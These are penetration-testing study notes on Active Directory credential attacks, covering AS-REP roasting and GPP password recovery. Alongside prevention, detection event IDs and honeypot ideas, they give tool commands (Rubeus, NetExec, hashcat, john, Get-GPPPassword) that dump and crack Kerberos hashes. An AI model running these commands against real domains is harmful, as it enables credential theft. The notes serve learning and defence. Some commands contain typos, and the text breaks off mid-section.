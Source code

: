 - Prevention
  - password strength
  - limit number of SPN
  - Group Managed Service Accounts (GMSA) = attached to service
- Detection
  - ID 4769
  - option RC4
- Honeypot user: old account + no change password + few privileges + legit SPN (IIS, SQL)

### AS-REProasting
- Goal: Obtain hash
  - Accounts without Kerberos preauthentication

- Path
```
# Extract ticket
cme | nxc ldab --asreproast asreproast.out
rubeus.exe asreproast /outfile:asrep.txt = ticket for all user

# Edit hash
- Add 23$ AFTER $krb5asrep$

# Crack hash
hashcat -m 18200
john hash --format=krb5ts --pot=results.pot
```

- Prevention
  - strong password
  - avoid assign this
- Detection
  - ID 4768 Kerb Authenticcation ticket
- Honeypot: user with few/no logins

### GPP Passwords
- SYSVOL
  - network share + all loged users
  - logon scripts + group policy
- Goal: find user name + encrypted password in XML policy file

- Path
```
Get-GPPPassword 
cme | nxc smb -M gpp_password
```

- Prevention: update, old versions contains password
- Detection: event if xml is read
  - ID: 4663
    - 4624: successfull, 4625|4771|4776: failed, 4768: TGT req
- Honeypot: wrong password + dummy tasks user for recent logon attemps

###  GPO Permissions (or GPO-deployed files)
- Goal: edit GPO / replace file
